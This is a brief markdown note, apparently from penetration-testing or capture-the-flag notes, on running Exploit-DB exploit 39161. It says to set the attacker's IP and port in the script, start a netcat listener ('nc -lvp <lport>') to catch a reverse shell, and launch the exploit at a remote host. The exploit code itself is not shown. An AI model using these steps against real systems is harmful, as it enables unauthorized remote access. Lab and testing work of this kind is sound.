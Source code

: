 ### Prepare file 39161.py and insert
```
ip_addr = "<lhost>" #local IP address
local_port = "<lport>" # Local Port number
```

### Start listener
```
nc -lvp <lport>
```

### Exploit (it might be necessary to execute the exploit multiple times)
```
python3 39161.py <rhost> <rport>
```

### References
* https://www.exploit-db.com/exploits/34668  
* https://www.exploit-db.com/exploits/39161  
* https://www.exploit-db.com/exploits/49125  

